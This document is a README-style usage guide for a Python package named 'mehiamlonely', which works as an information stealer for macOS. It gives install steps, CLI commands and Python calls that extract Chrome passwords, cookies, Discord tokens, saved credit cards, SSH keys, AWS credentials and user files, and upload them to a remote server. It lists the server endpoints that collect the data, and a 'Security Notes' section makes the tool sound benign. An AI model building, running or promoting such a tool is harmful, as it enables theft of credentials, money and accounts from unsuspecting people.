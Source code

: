 # Installation and Usage Guide

## Installation

```bash
# Install from PyPI (when published)
pip install mehiamlonely

# Or install from source
git clone <your-repo>
cd mehiamlonely
pip install -e .
```

## Quick Start

### 1. Create a Test Server

```bash
# Generate sample FastAPI server
mehiamlonely --create-server

# Run the server (in another terminal)
python sample_server.py
```

### 2. Extract and Upload Data

```bash
# Basic extraction and upload
mehiamlonely --server http://localhost:8000

# With verbose output to see what's being extracted
mehiamlonely --server http://localhost:8000 --verbose

# Save data locally AND upload to server
mehiamlonely --server http://localhost:8000 --output my_data.json

# Upload actual files (not just metadata)
mehiamlonely --server http://localhost:8000 --upload-files

# Test connection without extracting data
mehiamlonely --server http://localhost:8000 --test-connection
```

## Programmatic Usage

```python
import mehiamlonely.mehiamlonely_main as main
import asyncio

# Extract all data
data = main.extract_all_data()

# Extract specific components
chrome_data = main.extract_chrome_data()
files = main.extract_system_files(max_files=100)
system_info = main.extract_system_info()

# Upload to server
result = asyncio.run(main.upload_all_data("http://localhost:8000", data))
print("Upload successful:", result["success"])
```

## What Gets Extracted

### Chrome Data
- **Passwords**: Saved login credentials (decrypted using macOS Keychain)
- **Cookies**: Session cookies and authentication tokens  
- **Discord Tokens**: Discord authentication tokens from browser storage
- **Browser History**: URLs, titles, visit counts, and timestamps
- **LocalStorage**: Key-value pairs stored by websites
- **Autofill Data**: Credit cards, addresses, and other saved form data
- **Extensions**: Installed browser extensions and their details
- **Bookmarks**: All saved bookmarks
- **Profiles**: Multiple Chrome profiles and their settings
- **Preferences**: Browser settings and installed extensions

### File System Data
- **User Files**: Desktop, Documents, Downloads, Pictures, Movies, Music, Public
- **System Files**: Applications, Library files, Preferences
- **Sensitive Files**: SSH keys, AWS credentials, bash history, keychain files, config files
- **Applications**: Installed applications from /Applications and /System/Applications
- **File Metadata**: Size, modification date, permissions, file extensions

### System Information
- **Hardware**: CPU count, total memory, disk usage per partition
- **Processes**: Running applications (limited to 100 for performance)
- **User Info**: Username, hostname, home directory path

## Security Notes

- Uses macOS Keychain for Chrome password decryption
- Only accesses files you have permission to read
- No data is stored locally unless you specify `--output`
- All server communication is over HTTP/HTTPS
- Chrome database files are copied to temp locations to avoid locks

## API Endpoints

Your FastAPI server should implement:

- `GET /api/health` - Health check endpoint
- `POST /api/extract` - Receive extracted data JSON
- `POST /api/upload-file` - Receive uploaded files
- `GET /api/data/{client_id}` - Retrieve stored data
- `GET /api/files` - List uploaded files

## Troubleshooting

### Chrome Password Decryption Issues
- Ensure Chrome is installed and has saved passwords
- The tool uses macOS Keychain - you may need to grant permissions
- Some passwords may not decrypt if Chrome uses newer encryption

### File Access Issues
- The tool only accesses files you have permission to read
- System files in protected directories will be skipped
- Large file uploads are limited to avoid overwhelming the server

### Server Connection Issues
- Test connection first: `mehiamlonely --server <url> --test-connection`
- Check if your server implements the required endpoints
- Use `--verbose` flag to see detailed error messages
